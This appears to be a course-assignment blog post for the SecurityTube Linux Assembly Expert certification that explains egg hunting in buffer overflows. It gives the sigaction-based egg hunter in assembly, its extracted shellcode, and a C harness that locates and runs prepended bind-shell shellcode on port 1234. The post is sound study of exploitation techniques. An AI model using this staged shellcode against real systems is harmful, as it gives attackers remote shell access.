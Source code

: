 ```yaml
---
title: "SLAE Assignment 3"
date: 2018-02-07
published: true
---
```


### SecurityTube Linux Assembly Expert (SLAE) Course Exercises

[GitHub code repo](https://github.com/wsummerhill/SLAE)

This assignment requires us to look into the concept of “egg hunters” when it comes to buffer overflows and reverse engineering. 

Egg hunting is used in buffer overflows when there is a limited buffer space for executing shellcode at the end of the buffer which would normally prevent the use of a payload. The egg hunter is used to search through the entire range of memory in the heap or stack for our shellcode and redirect execution to it.

There is a well known paper on egg hunting by Skape which can be found here 

The egg is going to be 8 bytes in size - 4 byte egg repeated twice - converted to hex. 

When the program finds the tag it will redirect execution to where our shellcode is in memory.

The Sigaction system call allows multiple addresses to be validated at a single time by taking advantage of the kernel’s verify_area routine which is used, for instance, on structures that have been passed in from user-mod eto a system call.

It will be used to allow for validating of user-mode addresses and has the following format:
```bash
int sigaction(int signum, const struct sigaction *act, struct
sigaction *oldact)
```
Where
- gnum = EBX
- t = ECX
- dact = EDX

The system call for sigaction is 67 decimal (0x43 hex) which we’ll use in EAX.
Now onto the egg hunter code in Assembly.


```cpp
;Author: Will Summerhill
;Egg hunter code 
global _start

section .text

_start:

entry:
  or cx, 0xfff

next:
  inc ecx              ;page counter

  push byte +0x43      ;sigaction system call

  pop eax              ;store sigaction syscall into EAX

  int 0x80             ;execute sigaction

  cmp al, 0xf2         ;check if there was a segFault (if AL = 0xf2)

  jz entry             ;jump if zero flag (ZF) set from above cmp

  mov eax, 0x99999999  ;store egg into EAX

  mov edi, ecx         ;move into EDI to validate address

  
  ;EAX is egg, EDI is next address to validate

  scasd                ;scan string by comparing EAX and EDI, increment EDI by 4 

  jnz next             ;jump if zero flag (ZF) is not set from above compare

  
  scasd                ;will execute when first bytes of egg matched, compare the second half

  jnz next             ;match failed - try again from next address

  jmp edi              ;egg found - jump to payload in EDI
```

We can test this by determining the shellcode of the above program with the command objdump -d A3 -M intel and then copying it into our C program for execution with the normal //bin/sh bind shellcode. 

```cpp
#include<stdio.h>
#include<string.h>


//extracted egg hunter shellcode
unsigned char egghunter[] = \
"\x66\x81\xc9\xff\x0f"         //or     cx,0xfff
"\x41"                     //inc    ecx
"\x6a\x43"                  //push   0x43
"\x58"                     //pop    eax
"\xcd\x80"                  //int    0x80
"\x3c\xf2"                  //cmp    al,0xf2
"\x74\xf1"                  //je     80480a0 <_start>
"\xb8\x99\x99\x99\x99"          //mov    eax,0x99999999 --> EGG
"\x89\xcf"                  //mov    edi,ecx
"\xaf"                     //scas   eax,DWORD PTR es:[edi]
"\x75\xec"                  //jne    80480a5 <next>
"\xaf"                     //scas   eax,DWORD PTR es:[edi]
"\x75\xe9"                  //jne    80480a5 <next>
"\xff\xe7";       //jmp    edi


//add egg twice to beginning of bind shellcode below
//listens on localhost port 1234

unsigned char code[] = \
"\x99\x99\x99\x99\x99\x99\x99\x99\x31\xc0\xb0\x02\x31\xdb\xb3\x01\x31\xd2\x52\x53\x50\x31\xc9\x89\xe1\x31\xc0\xb0\x66\xcd\x80\x89\xc2\x31\xdb\x53\x66\x68\x04\xd2\x66\x6a\x02\x89\xe1\x6a\x10\x51\x52\x31\xc0\xb0\x66\xb3\x02\x89\xe1\xcd\x80\x6a\x01\x52\x31\xc0\x31\xdb\xb0\x66\xb3\x04\x89\xe1\xcd\x80\x31\xc0\x31\xdb\x50\x50\x52\x89\xe1\xb0\x66\xb3\x05\xcd\x80\x89\xc2\x31\xc0\xb0\x3f\x89\xd3\x31\xc9\xcd\x80\x31\xc0\xb0\x3f\x89\xd3\x41\xcd\x80\x31\xc0\xb0\x3f\x89\xd3\x41\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x50\x89\xe2\xb0\x0b\xcd\x80";

main()
{
  printf("Shellcode Length with 8 byte egg:  %d\n", strlen(code));
  printf("Egg hunter length: %d bytes\n", strlen(egghunter));
  int (*ret)() = (int(*)())egghunter; //return egghunter
  ret();
}
```

Now compiling the shellcode and executing we get a bind shell listening on port 1234 while using the egg hunter as the first staged payload which will redirect program execution to the normal bind shell that is prepended with the egg.  


----------
The assembly code can also be found here on my [Github](https://github.com/wsummerhill/SLAE/blob/master/Assignment%201).

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert

Student ID: SLAE-1109
